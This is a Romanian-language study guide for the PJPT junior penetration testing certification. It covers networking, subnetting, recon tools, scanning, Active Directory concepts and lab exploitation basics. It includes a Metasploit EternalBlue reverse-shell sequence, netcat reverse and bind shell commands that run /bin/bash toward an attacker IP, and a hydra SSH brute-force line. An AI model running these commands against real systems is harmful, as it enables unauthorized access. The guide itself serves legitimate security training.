# PJPT(Practical Junior Penetration Tester)
certificare practică oferită de TCM Security care testează abilitățile de bază în ethical hacking (enumerare, exploatare, privilege escalation și raportare), ideală pentru începători în domeniul pentesting-ului.Durată este 48 ore pentru laborator + 48 ore pentru raport.

## Coursuri recomandate:
1. Practical Ethical Hacking - The complete Course
2. Open-Source Intelligence (OSINT) Fundamentals
3. External Pentest Playbook
4. Windows Privilege Escalation for Beginners
5. Linux Privilege Escalation fot Beginners

## Notekeeping:
- Notion 
- Obsidian 
- Joplin
- GitBook
- CheryTree
- OneNote

### Screenshots Windows:
- GreenShot 
- FlameShot

## Networking Refresher:
- IP addresses
- MAC Addresses 
- TCP, UDP and Three-Way Handshake
- Common Ports and Protocols
- The OSI Model
- Subnetting
---
**IP addresses** - un IP address este identificatorul numeric al unui dispozitiv în rețea (ex.: 192.168.1.10 pentru IPv4). IPv4 = 4 octeți (ex. 203.0.113.5); IPv6 = șir hex (ex. 2001:db8::1).

**MAC Addresses** (Media Access Control Address) - dentificator unic atribuit unei plăci de rețea (NIC). 6 perechi hex (ex. 00:1A:2B:3C:4D:5E). permite identificarea dispozitivelor în rețele Ethernet / Wi-Fi în cadrul aceleiași rețele locale (LAN).

**NAT** - Este deja adresa fizică a dispozitivului sau a interfeții de rețea. Dupa primi 3 octeți putem vedea cine este vendorul pe acest [portal](https://maclookup.app/search/result?mac=00:15:5d).

**TCP, UDP** and **Three-Way Handshake** - (negocierea conexiunii TCP) reprezintă procesul prin care două dispozitive stabilesc o conexiune TCP, în care clientul trimite un mesaj SYN pentru a solicita conexiunea, serverul răspunde cu SYN-ACK pentru a confirma primirea și disponibilitatea, iar clientul trimite înapoi ACK pentru a finaliza stabilirea sesiunii, după care comunicarea poate începe; pe scurt, este mecanismul de inițializare a unei conexiuni fiabile între două sisteme.

- **TCP**(Transmission Control Protocol) -  este un protocol orientat pe conexiune care asigură livrarea garantată și în ordinea corectă a pachetelor, folosind mecanisme de confirmare (ACK) și retransmisie, fiind mai lent dar sigur; este utilizat în protocoale precum HTTP/HTTPS, SSH, FTP, SMTP și Telnet și poate fi descris pe scurt ca un protocol fiabil, controlat și ordonat.
- **UDP**(User Datagram Protocol) - este un protocol fără conexiune care nu garantează livrarea sau ordinea pachetelor și nu folosește mecanisme de confirmare, fiind mult mai rapid, dar mai puțin sigur decât TCP; este utilizat în aplicații unde viteza este mai importantă decât acuratețea, precum DNS, VoIP, streaming audio-video și jocuri online, și poate fi descris pe scurt ca un protocol rapid, simplu și fără garanții.
##### Three-Way handshake

Three-Way Handshake este procesul folosit de TCP pentru a stabili o conexiune între două dispozitive. Este o secvență de trei pași care are loc înainte ca transmiterea datelor să poată începe. Iată cum funcționează:

- SYN (Synchronize): Dispozitivul inițiator (numit de obicei client) trimite un pachet TCP cu flag-ul SYN activat către dispozitivul de destinație (numit server). Acest pachet indică intenția de a stabili o conexiune și conține un număr de secvență inițial.
- SYN-ACK (Synchronize-Acknowledge): După ce primește pachetul SYN, dispozitivul de destinație răspunde cu un pachet TCP ce are flag-urile SYN și ACK activate. Acest pachet confirmă primirea cererii și include propriul număr de secvență inițial.
- ACK (Acknowledge): În final, dispozitivul inițiator confirmă pachetul SYN-ACK trimițând înapoi un pachet ACK către destinație. Acest pachet confirmă stabilirea conexiunii și conține, de obicei, numărul de secvență incrementat.

```wireshark filtre
tcp.flags.syn == 1 or tcp.flags.ack == 1
```



### Common Ports and Protocols:
| Protocol / Serviciu | Descriere | Port | Tip Transport |
|--------------------|-----------|------|----------------|
| [FTP](Enumerating%20FTP.md) | File Transfer Protocol | 21 | TCP |
| [SSH](Enumerating%20SSH.md) | Secure Shell | 22 | TCP |
| Telnet | Remote Terminal Access | 23 | TCP |
| SMTP | Simple Mail Transfer Protocol | 25 | TCP |
| DNS | Domain Name System | 53 | TCP / UDP |
| [HTTP](Enumerating%20HTTP_HTTPS.md) | Hypertext Transfer Protocol | 80 | TCP |
| [HTTPS](Enumerating%20HTTP_HTTPS.md) | Hypertext Transfer Protocol Secure | 443 | TCP |
| DHCP | Dynamic Host Configuration Protocol | 67 (Server), 68 (Client) | UDP |
| POP3 | Post Office Protocol v3 | 110 | TCP |
| IMAP | Internet Message Access Protocol | 143 | TCP |
| SNMP | Simple Network Management Protocol | 161 | UDP |
| NTP | Network Time Protocol | 123 | UDP |
| [SMB](Enumerating%20SMB.md) | Server Message Block | 445 | TCP |
| TFTP | Trivial File Transfer Protocol | 69 | UDP |
| FTPS | FTP Secure (SSL/TLS) | 990 | TCP |
| LDAP | Lightweight Directory Access Protocol | 389 | TCP / UDP |
| MySQL | MySQL Database Service | 3306 | TCP |
| RDP | Remote Desktop Protocol | 3389 | TCP |

### OSI Model:
Modelul OSI (Open Systems Interconnection)

Modelul OSI este un cadru conceptual care împarte procesul de comunicație în rețea în 7 straturi. Fiecare strat are responsabilități specifice și comunică cu straturile de deasupra și dedesubt. Scopul său este să standardizeze modul în care dispozitivele comunică între ele și să faciliteze proiectarea, înțelegerea și depanarea rețelelor.
| Nr.   | Strat                              | Rol principal                                                                                | Exemple                               |
| ----- | ---------------------------------- | -------------------------------------------------------------------------------------------- | ------------------------------------- |
| **1** | **Physical** *(Fizic)*             | Transmiterea bitilor brut pe mediu (cupru, fibră, radio)                                     | cabluri, semnale, conectori           |
| **2** | **Data Link** *(Legătură de date)* | Asigură transmiterea cadrelor între dispozitive din aceeași rețea locală și detectează erori | **MAC**, **Ethernet**, **Wi-Fi**, PPP |
| **3** | **Network** *(Rețea)*              | Rutarea pachetelor între rețele diferite, adresare logică                                    | **IP**, ICMP, rutare                  |
| **4** | **Transport**                      | Asigură livrarea datelor între gazde finale, control du-te/vino                              | **TCP**, **UDP**                      |
| **5** | **Session** *(Sesiune)*            | Creează, menține și închide sesiunile dintre aplicații                                       | Control comunicare între aplicații    |
| **6** | **Presentation** *(Prezentare)*    | Transformă datele (criptare, compresie, encoding)                                            | SSL/TLS, formate date                 |
| **7** | **Application**                    | Interacțiunea directă cu utilizatorul și aplicațiile                                         | **HTTP**, **FTP**, **SMTP**, **DNS**  |

Metoda de memorizare:
**Please Do Not Throw Sausage Pizza Away** 

#### OSI Schema:


## Subnetting:
**Subnetting** - este procesul prin care o rețea IP mare este împărțită în rețele mai mici numite subrețele (subnets).
Scopul este folosirea mai eficientă a adreselor IP și o organizare mai bună a rețelei.

Subnetting se face prin împrumutarea unor biți din partea de host a adresei pentru a crea ID-uri de subnet.

Acesta este fisierul care ne ajuta [exel subnet](../src/docx/Subnet-Guide.xlsx) 

### Subnet x.0.0.0
| CIDR | /1 | /2 | /3 | /4 | /5 | /6 | /7 | /8 |
|------|----|----|----|----|----|----|----|----|
| **Hosts** | 2,147,483,648 | 1,073,741,824 | 536,870,912 | 268,435,456 | 134,217,728 | 67,108,864 | 33,554,432 | 16,777,216 |

---

### Subnet 255.x.0.0
| CIDR | /9 | /10 | /11 | /12 | /13 | /14 | /15 | /16 |
|------|----|-----|-----|-----|-----|-----|-----|-----|
| **Hosts** | 8,388,608 | 4,194,304 | 2,097,152 | 1,048,576 | 524,288 | 262,144 | 131,072 | 65,536 |

---

### Subnet 255.255.x.0
| CIDR | /17 | /18 | /19 | /20 | /21 | /22 | /23 | /24 |
|------|-----|-----|-----|-----|-----|-----|-----|-----|
| **Hosts** | 32,768 | 16,384 | 8,192 | 4,096 | 2,048 | 1,024 | 512 | 256 |

---

### Subnet 255.255.255.x
| CIDR | /25 | /26 | /27 | /28 | /29 | /30 | /31 | /32 |
|------|-----|-----|-----|-----|-----|-----|-----|-----|
| **Hosts** | 128 | 64 | 32 | 16 | 8 | 4 | 2 | 1 |

---

### Subnet Mask Byte Values (Replace x)
| Value | 128 | 192 | 224 | 240 | 248 | 252 | 254 | 255 |
|-------|-----|-----|-----|-----|-----|-----|-----|-----|

---

### Notes:
Număr Subneturi = 2^număr_biți_împrumutați

Host-uri pe subnet = 2^(biți_rămași) - 2
### Exemple:
| Subnet | Rețea            | Interval adrese utilizabile   | Broadcast     |
| ------ | ---------------- | ----------------------------- | ------------- |
| 1      | 192.168.0.0/26   | 192.168.0.1 – 192.168.0.62    | 192.168.0.63  |
| 2      | 192.168.0.64/26  | 192.168.0.65 – 192.168.0.126  | 192.168.0.127 |
| 3      | 192.168.0.128/26 | 192.168.0.129 – 192.168.0.190 | 192.168.0.191 |
| 4      | 192.168.0.192/26 | 192.168.0.193 – 192.168.0.254 | 192.168.0.255 |

## Subneting 2:
Mai multe exemple:
| CIDR            | Mască subnet    | Hosturi utilizabile | Network      | Broadcast     | Interval hosturi            |
| --------------- | --------------- | ------------------- | ------------ | ------------- | --------------------------- |
| 192.168.1.0/24  | 255.255.255.0   | 254                 | 192.168.1.0  | 192.168.1.255 | 192.168.1.1 – 192.168.1.254 |
| 192.168.1.0/28  | 255.255.255.240 | 14                  | 192.168.1.0  | 192.168.1.15  | 192.168.1.1 – 192.168.1.14  |
| 192.168.1.16/28 | 255.255.255.240 | 14                  | 192.168.1.16 | 192.168.1.31  | 192.168.1.17 – 192.168.1.30 |
| 192.168.0.0/23  | 255.255.254.0   | 510                 | 192.168.0.0  | 192.168.1.255 | 192.168.0.1 – 192.168.1.254 |
| 192.168.2.0/23  | 255.255.254.0   | 510                 | 192.168.2.0  | 192.168.3.255 | 192.168.2.1 – 192.168.3.254 |
| 192.168.0.0/22  | 255.255.252.0   | 1022                | 192.168.0.0  | 192.168.3.255 | 192.168.0.1 – 192.168.3.254 |
| 192.168.1.0/26  | 255.255.255.192 | 62                  | 192.168.1.0  | 192.168.1.63  | 192.168.1.1 – 192.168.1.62  |
| 192.168.1.0/27  | 255.255.255.224 | 30                  | 192.168.1.0  | 192.168.1.31  | 192.168.1.1 – 192.168.1.30  |

## Setting Up Our Lab:
Aici putem instala 2 produse de virtualizare VirtualBox/VMware. VMware deja este instalat si configuralt pe sistem de accea accesta o sa fie folosit pentru a ridica laboratoarele. 

## The Five Stages of Ethical Hacking:
Etapele hacking-ului etic

1. Reconnaisance (Colectare informații)
Adună informații pasive despre țintă: site-uri publice, DNS, WHOIS, rețele sociale, arhive. Scop: înțelege infrastructura și identifică posibile puncte de intrare.

2. Scanning (Scanare)
Provoacă activ ținta pentru a descoperi porturi deschise, servicii și vulnerabilități (port-scan, mapping, vulnerability scan). Produce lista de vectori exploatabili.
 
3. Gaining Access (Obținerea accesului)
Folosește vulnerabilitățile găsite pentru a pătrunde (exploits, cracking parole, social engineering). Obiectiv: acces la sistem/conturi pentru a demonstra impactul.

4. Maintaining Access (Menținerea accesului)
Instalează mecanisme de persistență (backdoor, reverse shell, conturi ascunse) pentru a arăta ce ar putea face un atacator real dacă nu e descoperit.

5. Covering Tracks (Acoperirea urmelor)
Șterge sau modifică dovezile activității (loguri, fișiere temporare), restabilește sau ascunde schimbările pentru a evalua detectabilitatea și capacitatea de răspuns.


## Information Gathering(Reconnaissance):
### Passive Reconnaissance Overview:
Web/Host:
Target Validation:
- whois
- nslookup
- dnsrecon
Finding Subdomains:
- Google Fu
- dig
- Nmap
- Sublist3r
- Bluto
- crt.sh
Fingerprinting:
- nmap 
- Wappalyzer
- BuiltWith
- Netcat
Data Breaches:
- HavelBeenPwned 
- BreachParse
- WeLeakInfo

### Identifying Our Target:
Bug Bounty:
- Bugcrowd

### Discovering Email Addresses:
Email OSINT:
- hunter.io
- phonebook.cz
- voilanorbert.com
- ClearbitConnect gmail service(need more information)
    - verify email addres https://tools.emailhippo.com/

###  Gathering Breached Credentials with Breach-Parse:
- Tool [breach-parse](https://github.com/hmaverickadams/breach-parse) wordlist-ul are aproape 50GB 

###  Hunting Breached Credentials with DeHashed:
- [DeHashed](https://dehashed.com/) contra plata
- [Hashes](https://hashes.com/en/decrypt/hash) permite sa intoducem un hash si sa vedem in clear text


### Hunting Subdomains Part 1
#### Sublist3r 
tool Python pentru enumera­rea subdomeniilor folosind mai multe surse publice (Google, Yahoo, Bing, PassiveDNS, etc.). Rapid pentru recon și ușor de folosit în linie de comand
```bash
# Install
apt install sublist3r
yay -S sublist3r
# Run 
sublist3r -d tesla.com 
```
#### [crt.sh](https://crt.sh/)
serviciu web (Certificate Transparency search) care caută certificate emise pentru un domeniu; foarte util pentru descoperirea subdomeniilor prin certificatele publicate.
```request
%.tesla.com
```
#### OWASP Amass:
framework avansat pentru enumerarea subdomeniilor și harta de rețea (passive + active + DNS bruteforce + scraping). Potrivit pentru cercetări exhaustive și generare de grafuri.
```bash
yay -S amass        # sau amass-bin dacă preferi binarul precompilat
amass -version
amass enum -d tesla.com
```

### Identifying Website Technologies:
- [BuiltWith](https://builtwith.com/) - serviciu web care detectează tehnologiile folosite de un site (CMS, analytics, biblioteci, hosting, CDN). Bun pentru profiling rapid al unei ținte web.
- Wappalyzer - extensie/bibliotecă care identifică tehnologii web (frameworks, librării, servere, CMS). Are plugin browser și CLI/ API — util pentru audit rapid din browser.
- whatweb (CLI) - scanner CLI care detectează servere, CMS-uri, plugin-uri și metadate din pagini web; mai „agresiv” și customizabil prin pluginuri, util pentru fingerprinting web

### Information Gathering with Burp Suite:
#### Google Fu:
Unele exemple:
```
- "exact phrase"        - o fraza care dorim sa fie gasita exact 
- site:                 - platforma pe care dorim sa gasim informatiea
- -                     - permite sa excludem unele fraze ca nu ne sunt interesante (sau platforme) `site:tesla.com -www`
- filetype:             - ce tip de fisiere dorim sa gasim
...
```
Este un resurs unde sunt strinse metodele de a gasi informatia: https://github.com/cipher387/Advanced-search-operators-list?tab=readme-ov-file#searchengines

Alta resursa pentru **Google FU**: https://tryhackme.com/resources/blog/google-fu

## Scanning & Enumeration:
### Port scans:
Aici o sa avem nevoie de **Kioptrix** in cazul meu o sa fie pe VMware:

Kioptrix Download: https://tcm-sec.com/kioptrix

Sau daca vrem toate versiunele: https://www.vulnhub.com/series/kioptrix,8/

Parcurgerea acestei masine o sa fie descrisa detaliata aici [Kioptrix Walkthrough](/PJPT%20Certificate/Walkthrough%20/Kioptrix_Walkthrough.md) mai departe o sa fie doar unele comenzi/utilite utile.

`netdiscove`        - scanează pasiv sau activ rețeaua specificată (de exemplu 192.168.1.0/24) pentru a identifica dispozitivele conectate și afișează adresele lor IP, MAC și producătorul plăcii de rețea. `-r` - pentru range
```bash
netdiscover -r <IP>/<CIDR>
```

`arp-scan`          - scanează rețeaua locală (broadcast domain) trimițând pachete ARP către toate adresele posibile și afișează lista dispozitivelor active cu IP, MAC și vendor.
```bash
arp-scan -l
```
`nmap`              - un instrument open-source de explorare şi auditare a reţelelor care detectează gazde active, porturi deschise, servicii şi versiuni, identifică sistemul de operare şi permite scripturi pentru flaguri avem fisierul  [nmap cheatsheet](nmap-cheatsheet-19.md):

Cel mai simplu exemplu:
```bash
nmap -T4 -p- -A <IP>
```
Net-discoveru(ARP nivelul L2) cu `nmap`:
```bash
nmap -sn <IP>/<CIDR>
```
### Enumerating HTTP/HTTPS:
`nikto`             - scanner web de vulnerabilități care verifică servere HTTP/HTTPS pentru fișiere/configurații/CGI periculoase și probleme cunoscute.

Exemplu:
```bash
nikto -h http://<IP>
```

`dirbuster`         - tool GUI (Java) pentru brute-forcing de directoare și fișiere pe un server web folosind wordlist-uri; util pentru găsirea resurselor ascunse.

`dirb`              - utilitar CLI simplu pentru bruteforce de directoare/fișiere web folosind liste de cuvinte; afișează răspunsurile HTTP relevante.

`gobuster`          - instrument CLI rapid pentru enumerație de directoare, fișiere sau virtual host-uri; folosește concurență (threading) și este bine optimizat pentru scanări rapide.

`ffuf`              - fast web fuzzer/dir-buster modern, foarte flexibil (parametri, fuzzing de query params, ext, etc.) și eficient pentru găsirea resurselor web.

`dirseach`          - scanner Python pentru directoare/fișiere web, recursiv, suportă extensii multiple şi output detaliat. 

Exemplu:
```bash
dirsearch -u http://192.168.1.24/ -r -x 403 # -r  recursive -x - exlude code 
```

### Enumerating SMB:
Metasploit (exemple de bază):
```bash
msfconsole
search name:ms17_010       
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS <IP>
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <tua_IP>
exploit
# sau: run
```

Listare share-uri, users, versiuni, politici, ACL-uri.

`smbclient`       - client SMB (listare share-uri, conectare anonimă).
```bash
smbclient -L //<IP> -N                          # -N = fără parolă
smbclient //<IP>/<SHARE> -U username
```
`enum4linux`      - script Perl pentru enumerare SMB/NetBIOS (users, shares, OS, group membership).
```bash
enum4linux -a <IP>
```

### Enumerating SSH:
O simpla conexiune poate sa ne arate banerul(unde poate sa fie versiunea si alta informatie utila) pentru serviciul dat:

Banner grab:
```bash
nc -nv <IP> 22
#sau
telnet <IP> 22 
```
### Researching Potential Vulnerabilities:
In sectiunea data avem 2 instrumente principale pentru a exploata vulnerabilitatile gasite:

[`rapid7`](https://www.rapid7.com/)         - companie şi platformă (ex: Metasploit, InsightVM) care oferă unelte comerciale şi baze de date pentru scanare, exploatare şi gestiunea vulnerabilităţilor.

[`exploit-db`](https://www.exploit-db.com/) - arhivă gratuită cu exploit-uri şi PoC-uri publice; utilă pentru a căuta exploituri existente pentru o vulnerabilitate identificată.

`searchsploit`                              -  

## Scanning with Nessus: 
1. Descarc Nessus de pe site-ul oficial: [Nessus](https://www.tenable.com/downloads/nessus?loginAttempted=true) 
2. Instalez pachetul (exemplu pentru Debian/Ubuntu .deb): `sudo dpkg -i Nessus_packet_here.deb`
3. Pornesc serviciul Nessus și mă asigur că este activ:
```bash
sudo systemctl enable --now nessusd
sudo systemctl status nessusd
```
4. Deschid interfața web în browser la: https://<IP>:8834/

## Exploitation Basics:
### Reverse Shell vs Bind Shells:
`Reverse Shell`         - este cel mai raspandit tip de shell atunci cănd victima dorește să se conecteze la mașina noastra este un tip simplu de shell.
```bash
Attackbox: nc -lvp 4444
Target:    nc <IP_attack_box> 4444 -e /bin/bash
```



`Bind Shell`            - este procesul invers atunci cănd atacatorul se conectează la victimă.
```bash
Attackbox: nc 192.168.1.2 4444
Target:    nc -lvp -e 4444 -e /bin/bash
```



### Staged vs Non-Staged Payloads:
Non-Staged:  tot payload-ul este trasmis de odata(poate fii ușor depistat de programele antimalware) nu lucrează mereu de obicei este mai multe date(biți) de transferat.
```bash
- Trimite shellcode-ul exploitului tot dintr-o dată
- Mai mare ca dimensiune și nu funcționează întotdeauna
- Exemplu: windows/meterpreter_reverse_tcp
```

Staged: payload-ul se transmite treptat poate fii mai instabil.
```bash
- Trimite payload-ul în etape
- Poate fi mai puțin stabil
- Exemplu: windows/meterpreter/reverse_tcp
``` 

### Root with Metasploit:
Este procesul este descris in fisierul dat [Kioptrix Walkthrough ](./Walkthrough/Kioptrix_Walkthrough.md)


### Manual Exploitation:
Este procesul este descris in fisierul dat [Kioptrix Walkthrough ](./Walkthrough/Kioptrix_Walkthrough.md)

### Brute force:
În cazul meu o să foloses `hydra`:
```bash
hydra -l root -P <password_list> -t 4 -V ssh://192.168.64.131:22
#metasploit 
search ssh 
```

## New Capstone:
Masinele vulnerabile se pot scoate aici: https://drive.google.com/drive/folders/1xJy4ozXaahXvjbgTeJVWyY-eUGIKgCj1
Pentesting for n00bs:                    https://www.youtube.com/watch?v=3aASluoJ-iM&list=PLLKT__MCUeiyxF54dBIkzEXT7h8NgqQUB

#### Walkthrough list:
- [Kioptrix](/PJPT%20Certificate/Walkthrough/Kioptrix_Walkthrough.md) #DONE
- [Blue Windows](/PJPT%20Certificate/Walkthrough/Blue_Walkthrough.md) #DONE
- [Academy](/PJPT%20Certificate/Walkthrough/Academy_Walkthrough.md)     #TODO toate de mai jos
- [Dev](/PJPT%20Certificate/Walkthrough/Dev_Walkthrough.md)
- [Butler](/PJPT%20Certificate/Walkthrough/Butler_Walkthrough.md)
- [Blackpearl](/PJPT%20Certificate/Walkthrough/Blackpearl_Walkthrough.md)

##  Active Directory Overview:
Active Directory:

Serviciu de directoare dezvoltat de Microsoft pentru gestionarea rețelelor de domeniu Windows. stochează informații despre obiecte (computere, utilizatori, imprimante, grupuri etc.). gândește-te la el ca la o carte de telefon pentru mediul Windows.Autentifică utilizatorii folosind bilete Kerberos. Dispozitive non-Windows (de ex. maşini Linux, firewall-uri etc.) pot de asemenea să se autentifice în Active Directory prin RADIUS sau LDAP.Obiectele (users, computers, groups) au atribute care pot fi căutate/gestionate prin LDAP. Kerberos oferă autentificare securizată; dacă vezi Kerberos în loguri, înseamnă că procesul de autentificare e tipic AD. Dacă integrezi echipamente non-Windows, verifică suportul pentru LDAP/RADIUS și mapping-ul atributelor (ex: uid ↔ sAMAccountName).

Pentru inceput trebuie de inteles ca Active Directory permite implementarea si sitemelor non-Windows cu `Kerborius` print `LDAP` sau `Radius`

### Physical Active Directory Components:
- **Data store**                        - conține fișierul NTDS.dit, baza de date principală a Active Directory. Important deoarece păstrează toate informațiile despre utilizatori, grupuri, parole hash-uite, și obiectele din domeniu.
- **Domain Controllers(DC)**            - servere care stochează și gestionează copia bazei AD și procesează autentificările utilizatorilor.
- **Global catalog server**             - server special care conține o copie parțială a tuturor obiectelor din forest; permite căutări rapide între domenii.
- **Read-Only Domain COntroller(RODC)** - versiune de DC care oferă doar citire; utilizat în locații nesigure (nu poți modifica obiectele AD local).
### Logical Active Directory Components: 
- **Partitions**                        - segmente logice din baza de date AD (Schema, Configuration, Domain, Application). separă tipuri diferite de date pentru replicare mai eficientă.
- **Schema**                            - definește structura și atributele obiectelor (ex: user are sAMAccountName, mail, etc.). este ca un "model de date" pentru tot AD-ul.

Schema AD DS
- Definește fiecare tip de obiect care poate fi stocat în director.
- Impune reguli privind crearea și configurarea obiectelor.

| Tip obiect (Object Types)             | Funcţie (Function)                         | Exemple (Examples)                         |
| ------------------------------------- | ------------------------------------------ | ------------------------------------------ |
| **Obiect de clasă (Class Object)**    | Ce obiecte pot fi create în director       | Utilizator (User), Calculator (Computer)   |
| **Obiect atribut (Attribute Object)** | Informații care pot fi atașate unui obiect | Nume afișat (Display name), email, telefon |

- **Domains**                           - unități administrative principale care conțin obiecte (utilizatori, calculatoare, grupuri). fiecare are propria bază de date și politici de securitate. 

| Funcție                                    | Descriere                                                                                          |
| ------------------------------------------ | -------------------------------------------------------------------------------------------------- |
| **Graniță administrativă**                 | Permite aplicarea politicilor (Group Policies) asupra grupurilor de obiecte.                       |
| **Graniță de replicare**                   | Controlează replicarea datelor între controlerele de domeniu (Domain Controllers).                 |
| **Graniță de autentificare și autorizare** | Definește limitele pentru accesul la resurse – determină cine se poate conecta și la ce are acces. |

Exemplu:
contoso.com — un domeniu tipic Active Directory care conține utilizatori, calculatoare și politici specifice companiei.

- **Domain trees**                      - grupuri de domenii conectate printr-o relație ierarhică (parent/child). domeniile din același tree împart același namespace DNS.

| Caracteristică                                   | Descriere                                                                                                                                        |
| ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Spațiu de nume comun (namespace)**             | Domeniile din același arbore împart un namespace continuu cu domeniul părinte (ex: `emea.contoso.com`, `na.contoso.com`).                        |
| **Domenii copil (child domains)**                | Fiecare domeniu poate avea propriile subdomenii.                                                                                                 |
| **Trusturi transitive bidirecționale implicite** | Domeniile din același arbore creează automat relații de încredere bidirecționale (two-way transitive trust), permițând autentificarea între ele. |

Exemplu:
```bash
contoso.com
 ├── emea.contoso.com
 └── na.contoso.com
```
- **Forests**                           - colecții de unul sau mai multe domain trees care împart aceeași schemă și catalog global.

| Caracteristică                            | Descriere                                                                                        |
| ----------------------------------------- | ------------------------------------------------------------------------------------------------ |
| **Schemă comună (Common schema)**         | Toate domeniile din pădure folosesc aceeași definiție a obiectelor (schema AD).                  |
| **Partiție de configurare comună**        | Informațiile de configurare (ex: site-uri, servicii, replicare) sunt partajate între domenii.    |
| **Catalog global comun (Global Catalog)** | Permite căutarea obiectelor din toate domeniile din pădure.                                      |
| **Trusturi implicite între domenii**      | Toate domeniile din pădure au relații de încredere automate, permițând autentificarea între ele. |
| **Grupuri administrative comune**         | Grupurile „Enterprise Admins” și „Schema Admins” sunt comune pentru întreaga pădure.             |

Exemplu vizual:
```bash
🌳 Forest
 ├── contoso.com
 │    ├── emea.contoso.com
 │    └── na.contoso.com
 └── fabrikam.com
      └── eu.fabrikam.com
```
O „forest” reprezintă nivelul cel mai înalt de organizare în Active Directory — toate domeniile și arborii dintr-o pădure împart aceeași schemă, configurare și catalog global, fiind conectate prin trusturi implicite.
- **Sites**                             - grupuri de subneturi IP folosite pentru a controla replicarea AD și autentificarea utilizatorilor local. optimizează traficul de rețea între locații fizice diferite.

- **Organization units (OUs)**          - containere logice pentru organizarea obiectelor (ex: departamente). permit aplicarea de Group Policy și delegarea administrării.

| Funcție                                                  | Descriere                                                                                                 |
| -------------------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| **Reprezenta organizația într-un mod ierarhic și logic** | Structura ierarhică reflectă departamentele, birourile sau echipele reale din companie.                   |
| **Gestiona colectiv obiectele într-un mod coerent**      | Permite aplicarea acelorași politici asupra unui grup de obiecte similare (ex: toți utilizatorii din IT). |
| **Delega permisiuni de administrare**                    | Administratorii pot acorda drepturi de gestionare doar pentru o anumită unitate organizațională.          |
| **Aplica politici (Group Policies)**                     | Permite aplicarea GPO-urilor doar asupra obiectelor din OU-ul respectiv.                                  |

- **trusts**                            - relații între domenii/forests care permit autentificarea și accesul între ele. gândite ca o „încredere” între două domenii – un user dintr-un domeniu poate accesa resurse în altul.

- **Objects**                           -  Toate aceste obiecte sunt stocate și gestionate în baza de date Active Directory și pot fi organizate în OUs (Organizational Units) pentru o administrare mai eficientă.

Obiecte în Active Directory:
| Obiect                                 | Descriere                                                                                                   |
| -------------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| **User (Utilizator)**                  | Permite accesul utilizatorului la resursele din rețea.                                                      |
| **InetOrgPerson**                      | Similar cu un cont de utilizator; folosit pentru compatibilitate cu alte servicii de directoare (ex: LDAP). |
| **Contacts (Contacte)**                | Folosit în principal pentru a atribui adrese de e-mail utilizatorilor externi. <br>Nu oferă acces la rețea. |
| **Groups (Grupuri)**                   | Simplifică administrarea controlului de acces prin gruparea utilizatorilor.                                 |
| **Computers (Calculatoare)**           | Permite autentificarea și auditarea accesului calculatoarelor la resurse.                                   |
| **Printers (Imprimante)**              | Facilitează localizarea și conectarea la imprimantele din rețea.                                            |
| **Shared Folders (Foldere partajate)** | Permite utilizatorilor să caute foldere partajate pe baza proprietăților definite.                          |

##  Active Directory Lab Build:
### ISO Necessary:
Link: https://www.microsoft.com/en-us/evalcenter
Instalam rolul de DC + Certificate Authority pe serverul Windows:

`SPN`                          - Service Principal Name; un identificator unic folosit de Kerberos pentru a lega un serviciu (ex: MSSQL, HTTP, CIFS) de un cont din Active Directory. Permite autentificarea Kerberos și poate fi abuzat pentru atacuri precum Kerberoasting dacă e configurat greșit.

Este o comandă Active Directory folosită pentru a adăuga un SPN (Service Principal Name) unui anumit cont de serviciu.
```powershell
setspn -a HYDRA-DC/SQLService.MARVEL.local:60111 MARVEL\SQLService
Checking domain DC=MARVEL,DC=local
Registering ServicePrincipalNames for CN=SQL Service,CN=Users,DC=MARVEL,DC=local
        HYDRA-DC/SQLService.MARVEL.local:60111
Updated object
```

